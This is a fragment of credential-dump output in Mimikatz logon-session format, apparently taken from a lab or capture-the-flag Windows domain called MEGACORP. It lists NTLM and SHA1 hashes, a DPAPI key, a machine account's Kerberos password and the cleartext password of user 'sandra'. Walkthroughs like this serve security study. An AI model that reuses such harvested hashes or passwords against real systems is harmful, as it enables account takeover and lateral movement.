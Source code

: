 ```cmd
         * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
        tspkg :
        wdigest :
         * Username : SHIELD$
         * Domain   : MEGACORP
         * Password : (null)
        kerberos :
         * Username : shield$
         * Domain   : MEGACORP.LOCAL
         * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
        ssp :
        credman :

Authentication Id : 0 ; 36467 (00000000:00008e73)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 9/7/2021 5:14:07 PM
SID               : 
        msv :
         [00000003] Primary
         * Username : SHIELD$
         * Domain   : MEGACORP
         * NTLM     : 9d4feee71a4f411bf92a86b523d64437
         * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 308037 (00000000:0004b345)
Session           : Interactive from 1
User Name         : sandra
Domain            : MEGACORP
Logon Server      : PATHFINDER
Logon Time        : 9/7/2021 5:15:25 PM
SID               : S-1-5-21-1035856440-4137329016-3276773158-1105
        msv :
         [00000003] Primary
         * Username : sandra
         * Domain   : MEGACORP
         * NTLM     : 29ab86c5c4d2aab957763e5c1720486d
         * SHA1     : 8bd0ccc2a23892a74dfbbbb57f0faa9721562a38
         * DPAPI    : f4c73b3f07c4f309ebf086644254bcbc
        tspkg :
        wdigest :
         * Username : sandra
         * Domain   : MEGACORP
         * Password : (null)
        kerberos :
         * Username : sandra
         * Domain   : MEGACORP.LOCAL
         * Password : Password1234!
        ssp :
        credman :

Authentication Id : 0 ; 167946 (00000000:0002900a)
Session           : Service from 0
User Name         : wordpress
Domain            : IIS APPPOOL
```